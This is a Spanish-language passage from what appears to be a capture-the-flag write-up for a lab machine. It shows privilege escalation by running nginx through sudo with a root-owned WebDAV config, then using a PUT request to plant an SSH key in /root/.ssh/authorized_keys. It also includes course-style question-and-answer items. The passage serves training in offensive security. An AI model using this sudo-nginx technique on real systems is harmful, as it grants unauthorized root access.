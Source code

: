 Creamos un archivo `nginx` que codificamos en base64 para trasnferirlo a la máquina cómodamente

```bash
$: cat nginx
user root;
events { worker_connections 1024; }
http { server {
        listen 666; root /; autoindex on; dav_methods PUT; }}
$: cat nginx | base64 -w0 > nginx 
```
- `user root;` El proceso de nginx correrá bajo el usaurio root
- `events { worker_connections 1024; }` El servidor soportará un máximo de 1024 conexiones, es decir, clientes.
- `http { server {`: configuraciones de HTTP y el servidor
  - `listen 666;` se levantará el servidor por el puerto de la bestia
  - `root /;` montará todo el sistema desde la raiz
  - `autoindex on;`: muestra la lista de archivos (o sea la raiz) ya que no hay un `index.html`
  - `dav_methods PUT;` permite la subida de archivos con el método PUT

> Q. ¿Qué directiva nginx se puede utilizar para definir métodos WebDAV permitidos?  
> A. dav_methods  

> Q. ¿Qué indicador se utiliza para establecer una configuración nginx personalizada especificando un archivo?  
> A. -c   


```bash
activemq@broker:/dev/shm$ echo "dXNlciByb290OwpldmVudHMgeyB3b3JrZXJfY29ubmVjdGlvbnMgMTAyNDsgfQpodHRwIHsgc2VydmVyIHsKICAgICAgICBsaXN0ZW4gNjY2OyByb290IC87IGF1dG9pbmRleCBvbjsgZGF2X21ldGhvZHMgUFVUOwp9fQo=" | base64 -d > nginx
activemq@broker:/dev/shm$ sudo nginx -c /dev/shm/nginx
activemq@broker:/dev/shm$ curl -s http://localhost:666
<html>
<head><title>Index of /</title></head>
<body>
<h1>Index of /</h1><hr><pre><a href="../">../</a>
<a href="bin/">bin/</a>                                               06-Nov-2023 01:10                   -
<a href="boot/">boot/</a>                                              06-Nov-2023 01:38                   -
<a href="dev/">dev/</a>                                               22-Dec-2023 04:17                   -
...
```
Todos esos puertos abiertos con el sistema de archivos (como el del puerto 81) eran explotaciones previas por parte de otras personas.
Creamos con kali un par de llaves en el directorio actial de trabajo:

> Q. ¿Qué método HTTP se utiliza para escribir archivos mediante el protocolo WebDAV?  
> A. PUT  

```bash
$: ssh-keygen -t rsa -b 1024 -f broker
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
...
$: cat broker.public
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQCy4VJoDJuhu1wW6EReCT1XZ59qxtU597O8oYFNQ5zzLpLz/wo8qVgQjWj54KEM1jS7AoWZV2mBJ2N8O6IkTpll8IQdcK8avtX5ad4CJqFlz1jz7pIWpbP2k/XEVge6mCxaSYMA6hNLuQMOj7opYgz3rbxEGj+2MYlbFDMNnSywUQ== jessica@kali

activemq@broker:/dev/shm$ curl -X PUT localhost:666/root/.ssh/authorized_keys -d 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQCy4VJoDJuhu1wW6EReCT1XZ59qxtU597O8oYFNQ5zzLpLz/wo8qVgQjWj54KEM1jS7AoWZV2mBJ2N8O6IkTpll8IQdcK8avtX5ad4CJqFlz1jz7pIWpbP2k/XEVge6mCxaSYMA6hNLuQMOj7opYgz3rbxEGj+2MYlbFDMNnSywUQ== jessica@kali'

$: ssh -i ./broker root@10.10.11.243
```